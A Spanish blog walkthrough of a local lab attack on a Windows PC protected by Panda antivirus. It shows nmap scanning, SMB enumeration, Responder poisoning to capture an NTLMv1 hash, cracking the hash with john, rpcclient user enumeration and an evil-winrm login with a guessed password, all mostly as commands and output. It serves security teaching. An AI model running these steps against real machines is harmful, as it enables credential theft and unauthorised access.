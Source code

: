 ```yaml
---
title: Vulnerando un equipo protegido con antivirus
author: HackerCloud
date: 2022-09-2 00:00:00 +0800
categories: [Blogging, Security]
tags: [Blogging]
image:
  path: ../../assets/img/commons/panda-security/panda.png
  width: 800
  height: 500
  alt: Banner Panda Security
---
```


Antes de empezar deciros que esto es un entorno de pruebas en local, panda security es un antivirus muy bueno para las personas que no saben de ciberseguridad y quieren estar protegidos, en este artículo lo que más importa es el último párrafo.

Para empezar tenemos que enumerar los equipos que están en nuestro segmento de red, para eso usaremos el parámetro `-sP` de nmap

```ruby
❯ sudo nmap -sP 192.168.1.44/24
Nmap scan report for 192.168.1.16
MAC Address: REDACTED (REDACTED)
Nmap scan report for REDACTED (192.168.1.20)
Host is up.
Nmap done: 256 IP addresses (X hosts up) scanned in 2.08 seconds
```

Con esto ya podemos empezar el escaneo de puertos con nmap

```ruby
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49667/tcp open  msrpc         Microsoft Windows RPC
5985/tcp  open  wsman         
```

Está el puerto SMB abierto así que podemos empezar a enumerarlo con crackmapexec

```ruby
❯ crackmapexec smb 192.168.1.20
SMB         192.168.1.20    445    REDACTED         [*] Windows 10.0 Build x64 (name:REDACTED) (domain:REDACTED) (signing:False) (SMBv1:False)
```

Vemos que tiene la firma desactivada, podemos empezar con un simple SMB Relay, este ataque consiste en ejecutar el [responder](https://github.com/SpiderLabs/Responder) y esperar a que alguien acceda o intente acceder a un recurso compartido a nivel de red sin importar que dicho recurso exista, esta vulnerabilidad es muy común en empresas ya que solo es necesario tener la firma deshabilitada para ser vulnerable

Este ataque lo estoy haciendo con Panda Security Professional activado y con el firewall activado, en este ataque solo importa que la firma esté desactivada

Solamente tenemos que ejecutar el responder con el parámetro -I para indicar nuestra interfaz de red

```ruby
❯ python3 Responder.py -I wlan0
[+] Poisoners:                                                                                                                                                
    LLMNR                      [ON]                                                                                                                           
    NBT-NS                     [ON]                                                                                                                           
    MDNS                       [ON]                                                                                                                           
    DNS                        [ON]                                                                                                                           
    DHCP                       [OFF]
[+] Servers:                                                                                                                                                  
    HTTP server                [ON]                                                                                                                           
    HTTPS server               [ON]                                                                                                                           
    WPAD proxy                 [OFF]                                                                                                                          
    Auth proxy                 [OFF]                                                                                                                          
    SMB server                 [ON]                                                                                                                           
    Kerberos server            [ON]                                                                                                                           
    SQL server                 [ON]                                                                                                                           
    FTP server                 [ON]                                                                                                                           
    IMAP server                [ON]                                                                                                                           
    POP3 server                [ON]                                                                                                                           
    SMTP server                [ON]                                                                                                                           
    DNS server                 [ON]                                                                                                                           
    LDAP server                [ON]                                                                                                                           
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]
REDACTED
[SMB] NTLMv1-SSP Client   : REDACTED
[SMB] NTLMv1-SSP Username : WORKGROUP\user
[SMB] NTLMv1-SSP Hash     : user::WORKGROUP:REDACTED:REDACTED:REDACTED
```

Con este hash ya solamente queda intentar crackearlo, en este caso he usado john con el diccionario rockyou.txt, como la contraseña era débil he podido crackearla

```ruby
❯ john --show hash
user:REDACTED

1 password hash cracked, 0 left
```

Como esto ha sido demasiado fácil, vamos a hacer como que el SMB está firmado en todos los equipos

Podemos empezar probando con smbclient para ver si tiene habilitado el null session

```ruby
❯ smbclient -L 192.168.1.20 -N
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.1.20 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Nos dice que está habilitado el null session pero no hay ninguna carpeta compartida, podemos hacer lo mismo con smbmap o crackmapexec para asegurarnos

```ruby
❯ smbmap -H 192.168.1.20 -u ""
[+] IP: 192.168.1.20:445        Name: REDACTED
```

```ruby
❯ crackmapexec smb 192.168.1.20 -u "" -p "" --shares 
SMB         192.168.1.20    445    REDACTED         [-] Error enumerating shares: SMB SessionError: STATUS_ACCESS_DENIED({Access Denied}
```

No vemos nada con ninguna de las 3 herramientas, podemos seguir por el puerto RPC para intentar enumerar usuarios del dominio

```bash
❯ rpcclient -U "" 192.168.1.20 -N -c "enumdomusers" | grep -oP '\[.*?\]' | sort -u | tr -d '[]'
```

Nos da dos usuarios, el usuario Administrador y el usuario user, podemos probar a conectarnos por winrm usando de contraseña el usuario ya que el puerto winrm está abierto

```powershell
❯ evil-winrm -i 192.168.1.20 -u 'user' -p 'user'

Evil-WinRM shell v3.4

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

PS C:\Users\user\Documents>
```

Y con esto nos podemos dar cuenta de que por muchas protecciones de antivirus que te pongas, sigue siendo más importante el factor humano.
